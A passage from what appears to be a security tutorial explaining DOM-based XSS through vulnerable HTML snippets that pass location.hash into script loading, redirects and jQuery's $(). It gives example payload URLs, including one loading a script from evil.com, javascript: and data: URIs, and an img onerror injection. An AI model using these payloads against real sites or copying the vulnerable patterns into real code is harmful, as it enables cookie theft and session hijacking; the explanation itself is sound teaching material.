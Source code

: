 There are a few payloads where this particular XSS can be exploited using. 

Assuming that the HTML code was hosted on `http://example.org/`, the first payload + URL that would allow arbitrary JavaScript execution is `http://example.org/#http://evil.com/evilscript.js`. In the payload, an arbitrary HTTP resource URL could be specified and loaded as a result of the JavaScript execution; an attacker could specify a URL where a malicious JavaScript is hosted and trick his victim into visiting the URL. 

The second payload is similar to the first payload, but makes use of a different URI scheme. The data URI scheme can be used to include data in-line as if they were external resources. Using a payload + URL like `http://example.org/#data:text/html,alert(1)` would cause an alert prompt to be displayed as a result of the JavaScript execution.

Another example of DOM-based XSS is:
{% highlight html linenos %}
<html>
    <body>
        <script>
            document.location = location.hash.substr(1);
        </script>
        <p>Opens a new window with the specified value in location.hash.</p>
    </body>
</html>
{% endhighlight %}

For this case, in normal scenario it'd be expected that a URL would be provided through the `location.hash` value and as a result, the webpage would redirect the user to the provided URL. However, an attacker could make use of the JavaScript URI scheme to result in arbitrary JavaScript code execution in the context of the vulnerable website, this allows the attacker to steal cookies belonging to the vulnerable website. An example of a URL + payload is `http://example.org/#javascript:alert(1)` where when visited would spawn an alert prompt as a result of the web browser attempting to redirect to `javascript:alert(1)`.

DOM-based XSS could also be found as a result of using external libraries like jQuery, an example of that is:
{% highlight html linenos %}
<html>
    <head>
        <script src="https://ajax.googleapis.com/ajax/libs/jquery/2.2.2/jquery.min.js"></script>
    </head>
    <body>
        <script>
            var hash = location.hash.substr(1);
            if ($(hash)) {
                //Do something if the element could be found.
            }
        </script>
    </body>
</html>
{% endhighlight %}

Most people don't know, but the `$()` method can create HTML elements. When jQuery fails to find the element specified by the selector, it creates the element instead. Therefore if the accessed URL of the example above was `http://example.org/#<img src=e onerror=alert()>`, it would result in the image element being created and as a result, causing an alert prompt to be spawned.

To be more specific, if there was user-controllable data flow into functions like `eval`,`document.write`,`window.open`,`document.location` and the data is not sanitized in anyway, then it'd likely be an XSS vulnerability.
